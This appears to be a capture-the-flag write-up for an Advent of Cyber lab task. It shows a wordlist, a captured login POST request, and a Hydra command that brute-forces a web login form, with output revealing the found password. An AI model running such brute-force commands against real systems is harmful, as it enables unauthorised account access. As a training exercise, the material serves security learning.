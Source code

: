 ## We're first downloading the worlist to our machine
```$cat /advent3/day4/wordlist ```

![cat](/Advent%20of%20Cyber%203/Screenshots/Task4/Wordlist.PNG)
```
christmas
elves!
santa
festive
joy123
myrrh!
yuletide
presents
candy
tidings
cookie
cookies
biscuits!
snowball
snowball123
```
Now we need the post request, how does it look! for that purpose we use burpsuite!
- Here's our response!

![burp](/Advent%20of%20Cyber%203/Screenshots/Task4/Task4burp.PNG)
```
POST / HTTP/1.1
Host: 10.10.88.145
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: http://10.10.88.145
Connection: close
Referer: http://10.10.88.145/
Cookie: PHPSESSID=rr0akvdk9fpk555t5f8fdl8s75
Upgrade-Insecure-Requests: 1

username=username&password=password&submit=Login
```

Now we know how our request looks like! let try to grab that form post and pass it to Hydra (Hydra is a pre-installed tool in Kali Linux used to brute-force username and password to different services)

```
hydra -l santa -P wordlist 10.10.88.145 http-form-post "/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password" -I
```
You might be wondering why adding a lot of those options, right?
- ```-l``` for the username!
- ```-P wordlist``` for the password wordlist that we've downloaded before!
- ```10.10.88.145``` our target!
- ```http-form-post``` We're bruteforcing a post module!
- ```^USER^``` & ```^PASS^``` are two parameters indicate what we're bruteforcing!
- ```F=Invalid username and password``` Whenever Hydra see this line when bruteforcing, it knows that the attempt failed therfore wrong credentials.
- ```-I``` Used to stop any previous hydra sessions and focus on the current one


- We get a response like this~

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-05 01:17:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:1/p:16), ~1 try per task
[DATA] attacking http-post-form://10.10.88.145:80/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password
```
```http
[80][http-post-form] host: 10.10.88.145   login: santa   password: cookie
```
```
1 of 1 target successfully completed, 1 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-05 01:17:02
```

Right! We've got the password! Which is cookie!, Now let try to attempt to login
![login](/Advent%20of%20Cyber%203/Screenshots/Task4/login.PNG)
![done](/Advent%20of%20Cyber%203/Screenshots/Task4/flag.PNG)


We've done it! Well done guys!